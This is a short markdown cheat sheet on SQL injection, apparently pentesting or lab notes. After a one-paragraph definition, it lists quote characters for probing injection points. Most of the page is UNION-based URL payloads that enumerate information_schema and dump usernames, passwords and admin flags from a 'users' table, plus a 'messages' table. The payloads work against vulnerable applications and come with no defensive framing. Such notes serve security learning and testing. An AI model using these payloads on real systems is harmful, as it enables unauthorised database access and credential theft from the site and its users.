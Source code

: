 # SQL Injection

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behaviour.

## Entry Point

```console

'
"
`
')
")
`)
'))
"))
`))
```

Look for error messages

## SQL Requests URL

```
/admin?user=0 union select 1,2,3,4 -- -

user=0 union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -

user=0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'-- -

0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='users'-- -

user=0 union select 1,group_concat(id,':',username,':',password,':',isAdministrator,'\n'),3,4 from marketplace.users-- -

user=0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='messages'-- -
```

